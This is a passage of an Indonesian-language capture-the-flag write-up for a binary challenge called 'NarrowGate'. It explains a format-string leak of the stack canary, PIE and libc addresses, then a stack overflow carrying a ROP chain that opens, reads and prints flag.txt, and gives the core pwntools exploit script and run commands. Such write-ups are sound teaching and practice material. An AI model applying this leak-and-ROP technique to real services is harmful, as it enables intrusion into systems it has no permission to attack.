


# NarrowGate — Eksploitasi

[← Overview](38-narrowgate.md) · [Index](index.md)

## 3.1 Strategi

1. Kirim nickname `%27$p|%29$p|%43$p` → canary, PIE, libc.
2. Hitung:
   ```text
   pie  = leak29 - 0x154b
   libc = leak43 - 0x29d90
   ```
3. Kirim `blocks = 1025` (little-endian 4 byte).
4. Kirim payload overflow:
   ```text
   72 filler + canary + 8 dummy rbp + ROP
   ```
5. ROP dua tahap:
   - `read(0, RW_PATH, 0x80)` → menerima nama file (`flag.txt`).
   - `open(RW_PATH, 0, 0)` → raw syscall, fd di `rax`.
   - `xchg edi, eax` → fd ke `rdi`.
   - `read(fd, RW_OUT, 0x100)`.
   - `write(1, RW_OUT, 0x100)`.
   - `exit(0)`.
6. Setelah mengirim payload, tunggu sebentar lalu kirim `flag.txt\0` untuk tahap `read` ROP.

> Catatan: `read` overflow meminta 65600 byte tetapi pipe mengembalikan data yang tersedia (short read). Karena itu payload dikirim lebih dulu, lalu path dikirim setelah delay kecil; ROP `read` kedua menunggu path.

## 3.2 Script exploit

Tersimpan di `writeups/assets/narrowgate/exploit.py`. Bagian inti:

```python
p.sendline(b'%27$p|%29$p|%43$p')
out = p.recvuntil(b'blocks(4 bytes)> ')
canary = int(...); pie = int(...) - 0x154b; libc = int(...) - 0x29d90

chain  = g(RDI)+q(0)+g(RSI)+q(pathptr)+g(RDX_RBX)+q(0x80)+q(0)+g(RAX)+q(0)+g(SYSCALL)   # read path
chain += g(RDI)+q(pathptr)+g(RSI)+q(0)+g(RDX_RBX)+q(0)+q(0)+g(RAX)+q(2)+g(SYSCALL)      # open
chain += g(XCHG_EDI_EAX)                                                                  # fd=rax
chain += g(RSI)+q(outptr)+g(RDX_RBX)+q(0x100)+q(0)+g(RAX)+q(0)+g(SYSCALL)               # read
chain += g(RDI)+q(1)+g(RSI)+q(outptr)+g(RDX_RBX)+q(0x100)+q(0)+g(RAX)+q(1)+g(SYSCALL)   # write
chain += g(RDI)+q(0)+g(RAX)+q(60)+g(SYSCALL)                                             # exit

payload = b'A'*72 + p64(canary) + b'B'*8 + chain
p.send(p32(1025))       # blocks
time.sleep(0.2)
p.send(payload)
time.sleep(0.4)
p.send(b'flag.txt\x00')
```

Menjalankan:

```bash
cd writeups/assets/narrowgate
echo 'NFX{LOCAL_TEST_FLAG_NARROWGATE}' > flag.txt
python3 exploit.py | tee 03-exploit-run.txt
```

### Evidence langkah ini



*Terminal evidence — `03-exploit-run.txt` (arsip transkrip sesi solve).*



*Terminal evidence — `03b-leak-probe.txt` (arsip transkrip sesi solve).*

**Berkas mentah langkah ini:**

- [`03-exploit-run.txt`](assets/narrowgate/03-exploit-run.txt)
- [`03b-leak-probe.py`](assets/narrowgate/03b-leak-probe.py)
- [`03b-leak-probe.txt`](assets/narrowgate/03b-leak-probe.txt)
